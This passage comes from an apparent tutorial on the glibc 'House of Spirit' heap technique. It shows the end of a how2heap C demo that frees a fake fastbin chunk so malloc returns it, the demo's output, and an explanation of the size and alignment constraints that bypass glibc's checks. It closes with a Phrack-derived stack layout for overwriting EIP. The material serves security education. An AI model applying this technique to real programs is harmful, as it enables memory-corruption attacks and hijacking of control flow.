 ```c

	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the fake chunk\n");
	free(a);

	fprintf(stderr, "malloc will return fake chunk at %p, user data offset at %p!\n",
		&fake_chunks[1], &fake_chunks[2]);

	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

Output:

    $ ./house_of_spirit
    Calling malloc() once so that it sets up its memory.
    Setup pointer to point to a fake 'fastbin' region.
    This region (size 80) holds two chunks
	1st at 0x7fffebe764a8 and 2nd at 0x7fffebe764e8
    Set pointer to address of user data in fake first chunk, 0x7fffebe764a8
    Freeing the fake chunk
    malloc will return fake chunk at 0x7fffebe764a8, user data offset at 0x7fffebe764b0!
    malloc(0x30): 0x7fffebe764b0


This `chunk.size` of this region has to be 16 more than the region (to accomodate the chunk header) while still falling into the fastbin category (<= 128 on x64).

This has to be the size of the next malloc request (`0x30` in this example) rounded to the internal size used by the malloc implementation. For example on x64, `0x30-0x38` will all be rounded to `0x40`, so they would work for the malloc parameter at the end.

The `chunk.size` of the *next* fake region has to be set to bypass the glibc security check. That is `> 2*SIZE_SZ` (> 16 on x64) && `< av->system_mem` (< 128KB by default for the main arena) to pass the nextsize integrity checks.

So that the fake chunk is handled correctly by glibc, before the fake chunk is `free()ed` using the pointer, the pointer is set to the user data region within the fake first chunk (i.e. it is not set to the address of the chunk header itself, but the user data within the chunk). This is because glibc will attempt to look at the chunk header later, by subtracting the chunk header offset from the user data.

Finally in order to make this work the memory the of the crafted fake chunk must be 16-byte aligned, as glibc would do for chunks it produces.


While the above @how2heap example does nothing harmful, it easy to imagine how an arbitary memory location could be corrupted with this technique. @phrack for example walks through laying out the fake chunk over stack, to gain control of the EIP:

                     val1         target                val2
                      o             |                     o
        -64           |  mem  -4    0   +4  +8  +12 +16   |
         |            |   |    |    |    |   |   |   |    |
    .....][P_SIZE][size+8][...][EBP][EIP][..][..][..][next_size][ ......
                      |   |                           |
                      o---|---------------------------o
                          |      (size + 8) bytes
                         PTR1
                          |---> Future PTR2
                                       ----
  